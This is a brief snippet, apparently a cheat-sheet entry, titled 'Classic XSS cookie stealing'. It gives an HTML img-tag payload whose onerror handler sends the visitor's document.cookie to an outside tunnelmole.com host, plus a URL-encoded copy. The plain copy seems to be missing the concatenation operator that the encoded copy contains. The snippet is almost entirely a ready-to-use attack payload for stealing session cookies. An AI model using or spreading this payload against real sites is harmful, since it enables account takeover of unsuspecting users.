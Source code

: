 Classic XSS cookie stealing
payload:
<img src=x onerror="location.href='http://vnl9af-ip-103-242-105-157.tunnelmole.com/?c='  document.cookie">
url encoded payload:
%3cimg%20src%3dx%20onerror%3d%22location.href%3d'http%3a%2f%2fvnl9af-ip-103-242-105-157.tunnelmole.com%2f%3fc%3d'%2b%20document.cookie%22%3e
